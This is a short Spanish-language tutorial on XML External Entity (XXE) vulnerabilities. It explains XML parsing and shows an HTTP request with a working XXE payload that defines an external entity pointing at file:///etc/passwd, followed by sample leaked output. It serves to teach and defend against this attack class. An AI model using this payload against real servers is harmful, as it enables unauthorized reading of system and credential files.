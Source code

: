 # XML External Entity(EXX)

El lenguaje de marcado extensible (XML) permite definir y almacenar datos de forma compartible. XML admite el intercambio de información entre sistemas de computación, como sitios web, bases de datos y aplicaciones de terceros.

## Tipos de vulnerabilidades de XML

### **XXE (XML External Entity)**

Un ataque _de entidad externa XML_ es un tipo de ataque contra una aplicación que analiza la entrada XML. Este ataque ocurre cuando la entrada XML que contiene una referencia a una entidad externa es procesada por un analizador XML débilmente configurado .Es un formato de datos popular que se utiliza para servicios web (SOAP, REST), documentos (XML, HTML, DOCX), imágenes (svg, datos exif), etc.&#x20;

```xml
<?xml version="1.0" encoding="UTF-8"?>

<root>
    <product>
        <name>Producto 1</name>
        <price>100</price>
    </product>

    <product>
        <name>Producto 2</name>
        <price>200</price>
    </product>
</root>

```

### ¿Cómo detectarlos y explotarlos?

Las aplicaciones necesitan un analizador XML o un procesador XML para interpretar datos XML. La vulnerabilidad XXE surge cuando el analizador XML interpreta la carga útil maliciosa como datos XML estándar que pueden terminar accediendo o extrayendo datos confidenciales en el servidor.

Para dar un ejemplo, una solicitud HTTP básica con cuerpo XML y la respuesta HTTP correspondiente se parece a lo siguiente:

```xml
POST /api/users HTTP/1.1
Host: example.com
Content-Type: application/xml
Content-Length: 100

<?xml version="1.0" encoding="UTF-8"?>
<user>
  <username>admin</username>
  <password>secret</password>
</user>

```

Cuando el atacante envía los siguientes datos XML con la carga útil XXE incluida, el analizador XML procesa entidades externas, lo que hace que el servidor devuelva el contenido del archivo interno /etc/passwd.

```xml
POST /api/users HTTP/1.1
Host: example.com
Content-Type: application/xml
Content-Length: 141

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE user [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user>
  <username>&xxe;</username>
  <password>secret</password>
</user>

```

**Posible contenido**

```
root:x:0:0:root:/root:/bin/bash
```

<mark style="color:red;">**Recursos**</mark>

{% embed url="https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing" %}

{% embed url="https://aws.amazon.com/es/what-is/xml/" %}

{% embed url="https://www.cobalt.io/blog/how-to-execute-an-xml-external-entity-injection-xxe" %}

